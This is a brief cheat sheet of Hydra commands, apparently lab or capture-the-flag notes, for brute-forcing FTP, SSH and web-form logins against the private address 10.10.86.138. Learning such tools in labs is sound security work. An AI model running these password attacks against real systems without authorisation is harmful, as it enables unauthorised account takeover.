
### Basic command 

 
1. FTP Bruteforce

	```
	hydra -l user -P passlist.txt ftp://10.10.86.138
	```


2. SSH Bruteforce


	```
	﻿hydra -l <username> -P <full path to pass> 10.10.86.138 -t 4 ssh
	```

3. Bruteforce web credentials


```
	hydra -l <username> -P <wordlist> 10.10.86.138 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

